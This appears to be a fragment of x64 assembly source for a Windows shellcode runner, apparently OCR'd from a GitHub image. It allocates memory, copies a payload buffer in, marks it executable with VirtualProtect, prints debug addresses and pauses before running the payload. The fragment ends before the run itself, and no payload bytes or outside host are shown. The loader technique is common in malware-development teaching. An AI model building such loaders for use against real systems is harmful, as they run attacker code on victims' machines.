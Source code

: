 ```asm
	xor	rdx, rdx
	mov	dl, [payload_len]
	mov	r8, 0x3000
	mov	r9, 0x4
	sub     rsp, 32	
 	call	VirtualAlloc
	add     rsp, 32	

	mov	[exec_mem], rax

	lea     rcx, [msg_format]
	lea	rdx, [msg_pload_addr]
	lea	r8, payload
	sub     rsp, 32	
	call    printf
	add     rsp, 32	

	lea     rcx, [msg_format]
	lea	rdx, [msg_exec_addr]
	mov	r8, [exec_mem]
	sub     rsp, 32
	
	call    printf
	add     rsp, 32	

	;; Copy payload to new buffer
	mov	rcx, [exec_mem]
	lea	rdx, [payload]
	xor	r8, r8
	mov	r8b, [payload_len]
	sub     rsp, 32		
	call	RtlMoveMemory
	add     rsp, 32	

	;; Make new buffer as executable
	mov	rcx, [exec_mem]
	xor	rdx, rdx
	mov	dl, [payload_len]
		mov	r8, 0x20
	xor	r9, r9
	lea	r9, [old_protect]
	sub     rsp, 32		
	call	VirtualProtect
	add     rsp, 32

	push	rax

	lea     rcx, [msg_hit_me]
	sub     rsp, 32			
	call    printf
	add     rsp, 32	

	sub     rsp, 32				
	call	getchar
	add     rsp, 32

	pop	rax

	;; If all good, run the payload	
	jz	ifrvzero

	xor	rcx, rcx
	xor	rdx, rdx
```